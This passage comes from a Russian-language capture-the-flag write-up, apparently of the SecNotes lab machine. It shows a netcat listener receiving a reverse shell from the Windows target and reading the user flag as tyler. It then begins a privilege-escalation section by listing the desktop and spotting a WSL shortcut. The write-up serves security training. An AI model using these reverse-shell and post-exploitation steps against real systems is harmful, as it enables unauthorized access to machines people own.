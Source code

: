 И получаем, наконец, свой реверс-шелл и забираем первый флаг:
```text
root@kali:~# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49681.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

### user.txt
```text
C:\inetpub\new-site>type C:\Users\tyler\Desktop\user.txt
type C:\Users\tyler\Desktop\user.txt
6fa75569????????????????????????
```

# PrivEsc: tyler → Administrator
Блуждая по хосту, можно обнаружить много отсылок к подсистеме Linux ([*WSL*](https://ru.wikipedia.org/wiki/Windows_Subsystem_for_Linux "Windows Subsystem for Linux — Википедия"), aka ***W**indows **S**ubsystem for **L**inux*), например, это ярлык `bash.lnk` на рабочем столе Тайлера:
```text
C:\inetpub\new-site>cd C:\Users\tyler\Desktop
cd C:\Users\tyler\Desktop

C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
04/11/2018  04:34 PM             1,142 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
08/19/2018  09:25 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,897 bytes
               2 Dir(s)  33,251,074,048 bytes free
```
